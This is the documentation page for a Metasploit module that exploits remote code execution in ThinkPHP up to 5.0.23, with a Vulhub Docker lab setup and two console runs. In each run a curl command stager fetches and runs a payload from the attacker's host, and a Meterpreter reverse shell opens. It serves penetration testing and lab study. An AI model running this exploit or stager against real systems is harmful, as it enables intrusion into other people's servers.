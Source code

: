 ## Vulnerable Application

### Description

This module exploits one of two PHP injection vulnerabilities in the
ThinkPHP web framework to execute code as the web user.

Versions up to and including 5.0.23 are exploitable, though 5.0.23 is
vulnerable to a separate vulnerability. The module will automatically
attempt to detect the version of the software.

Tested against versions 5.0.20 and 5.0.23 as can be found on Vulhub.

### Setup

1. `git clone https://github.com/vulhub/vulhub`
2. `cd vulhub/thinkphp/5-rce` for 5.0.20 or `cd vulhub/thinkphp/5.0.23-rce` for 5.0.23
3. `docker-compose up -d`

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### SRVPORT

If you are testing the [Docker container](#setup), which binds to port
8080 by default, and you are using an HTTP(S) command stager, set this
to a different port to bind the command stager server to.

## Scenarios

### ThinkPHP 5.0.20 from [Vulhub](https://github.com/vulhub/vulhub/tree/master/thinkphp/5-rce)

```
msf5 > use exploit/unix/webapp/thinkphp_rce
msf5 exploit(unix/webapp/thinkphp_rce) > options

Module options (exploit/unix/webapp/thinkphp_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf5 exploit(unix/webapp/thinkphp_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/thinkphp_rce) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(unix/webapp/thinkphp_rce) > set cmdstager::flavor curl
cmdstager::flavor => curl
msf5 exploit(unix/webapp/thinkphp_rce) > set srvport 8888
srvport => 8888
msf5 exploit(unix/webapp/thinkphp_rce) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. ThinkPHP 5.0.20 is a vulnerable version.
[*] Targeting ThinkPHP 5.0.20 automatically
[*] Using URL: http://0.0.0.0:8888/IV0dIafe
[*] Local IP: http://192.168.1.3:8888/IV0dIafe
[*] Generated command stager: ["curl -so /tmp/UJiMvCsm http://192.168.1.3:8888/IV0dIafe;chmod +x /tmp/UJiMvCsm;/tmp/UJiMvCsm;rm -f /tmp/UJiMvCsm"]
[*] Executing command: curl -so /tmp/UJiMvCsm http://192.168.1.3:8888/IV0dIafe;chmod +x /tmp/UJiMvCsm;/tmp/UJiMvCsm;rm -f /tmp/UJiMvCsm
[*] Client 192.168.1.3 (curl/7.52.1) requested /IV0dIafe
[*] Sending payload to 192.168.1.3 (curl/7.52.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:64475) at 2020-04-13 01:02:13 -0500
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ c94d71fb70ec (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 172.21.0.2
OS           : Debian 9.4 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### ThinkPHP 5.0.23 from [Vulhub](https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce)

```
msf5 exploit(unix/webapp/thinkphp_rce) > set rport 8081
rport => 8081
msf5 exploit(unix/webapp/thinkphp_rce) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. ThinkPHP 5.0.23 is a vulnerable version.
[*] Targeting ThinkPHP 5.0.23 automatically
[*] Using URL: http://0.0.0.0:8888/zD3iTDja
[*] Local IP: http://192.168.1.3:8888/zD3iTDja
[*] Generated command stager: ["curl -so /tmp/XnysdYyf http://192.168.1.3:8888/zD3iTDja;chmod +x /tmp/XnysdYyf;/tmp/XnysdYyf;rm -f /tmp/XnysdYyf"]
[*] Executing command: curl -so /tmp/XnysdYyf http://192.168.1.3:8888/zD3iTDja;chmod +x /tmp/XnysdYyf;/tmp/XnysdYyf;rm -f /tmp/XnysdYyf
[*] Client 192.168.1.3 (curl/7.52.1) requested /zD3iTDja
[*] Sending payload to 192.168.1.3 (curl/7.52.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.3
[*] Meterpreter session 2 opened (192.168.1.3:4444 -> 192.168.1.3:64482) at 2020-04-13 01:03:29 -0500
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ 9a6301c3c31d (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 172.22.0.2
OS           : Debian 9.6 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
